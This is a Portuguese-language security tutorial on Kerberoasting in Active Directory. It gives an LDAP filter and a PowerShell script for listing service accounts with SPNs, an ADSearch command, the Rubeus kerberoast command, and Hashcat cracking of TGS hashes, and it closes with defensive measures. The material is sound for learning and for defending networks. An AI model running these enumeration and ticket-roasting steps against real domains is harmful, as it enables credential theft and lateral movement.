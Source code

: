 ```yaml
---
title: "Kerberoasting"
excerpt: "Teoria e prática sobre Kerberoasting."
categories:
  - Hacking
tags:
  - Kerberoasting
  - Active Directory
  - SPN
  - LDAP
  - ADSearch
  - Rubeus
  - Hahscat

toc: true
---
```


## Teoria

Kerberoasting explora o Ticket Granting Service (TGS), que é usado para a autenticação em um serviço através do protocolo Kerberos.

O ataque envolve a solicitação de um ticket de serviço arbitrário para cada nome principal de serviço (Service Principal Name - SPN) no domínio e a tentativa de quebra offline da senha através de força bruta.

Caso a conta de serviço seja de máquina (`MACHINENAME$`), será impossível de realizar, por causa das senhas complexas e geradas aleatoriamente, porém, alguns serviços são executados por contas de um usuário normal (o usuário criou a senha) e neste caso o ataque é efetivo.

**OBS: Com a senha, a movimentação lateral se torna possível.**

Quando senhas fracas estão em uso, a probabilidade de sucesso do ataque aumenta significativamente, ou seja, é importante aplicar políticas de senhas fortes para a proteção.

## Extração de Contas com SPN através do LDAP

Pode-se realizar um filtro LDAP para extrair as contas que possuem mais de um SPN:

`(objectCategory=person)(objectClass=user)(servicePrincipalName=*)`

![Untitled](https://github.com/BieAnimaton/BieAnimaton/assets/52220244/19cf4a23-3478-416a-9cd5-8b145caa6b3c)

![Untitled 1](https://github.com/BieAnimaton/BieAnimaton/assets/52220244/e29d492f-13c9-49e3-8305-08ff57c64221)

## Extração de Contas com SPN através do Powershell

O mesmo filtro será usado através de um script poweshell.

```powershell
$search = New-Object DirectoryServices.DirectorySearcher([ADSI]"")
$search.filter = "(&(objectCategory=person)(objectClass=user)(servicePrincipalName=*))"
$results = $search.Findall()
foreach($result in $results)
{
	$userEntry = $result.GetDirectoryEntry()
	Write-host "User : " $userEntry.name "(" $userEntry.distinguishedName ")"
	Write-host "SPNs"        
	foreach($SPN in $userEntry.servicePrincipalName)
	{
		$SPN       
	}
	Write-host ""
}
```

![Untitled 2](https://github.com/BieAnimaton/BieAnimaton/assets/52220244/2a55426a-72bd-4aa2-9b5a-2efabc551fb1)

A Mõnica está associada ao SPN `MSSQLSvc/monica.com`.

## Extração de Contas com SPN através do ADSearch

```powershell
ADSearch.exe --search "(&(objectCategory=person)(objectClass=user)(servicePrincipalName=*))" --attributes cn,distinguishedname,samaccountname
```

![Untitled 3](https://github.com/BieAnimaton/BieAnimaton/assets/52220244/a6b2135b-26f4-464e-9e71-282d67cbe31e)

## Ataque

O Kerberoast pode ser realizado através do Rubeus:

```powershell
Rubeus.exe kerberoast /nowrap
```

- A opção “nowrap” remove a quebra de linha (não obrigatório).

![Untitled 3](https://github.com/BieAnimaton/BieAnimaton/assets/52220244/191c83c5-414c-4d3d-99f0-37de737e2ff5)

## Quebrando a Senha

O Hashcat será usado para quebrar a senha.

![Untitled 4](https://github.com/BieAnimaton/BieAnimaton/assets/52220244/bd5d1f51-f60e-46ff-8fbd-8d207321a841)

- A configuração “-m 13100” é para quebrar senhas Kerberos 5 TGS-REP (etype 23).
- O arquivo “monraybrandt-kerberoast” possui o hash encontrado.
- O arquivo “pass” contém as possíveis senhas.

![Untitled 5](https://github.com/BieAnimaton/BieAnimaton/assets/52220244/c8b83247-89f9-4a34-bf76-98d34121fb17)

## Medidas de Proteção

Criação de senhas fortes (tamanho 10 ou mais, números, letras maiúsculas e minúsculas e caracteres especiais).  
Remover e evitar SPN em contas de usuário.  
Caso realmente seja necessário, usar o Microsoft Managed Service Accounts (MSA).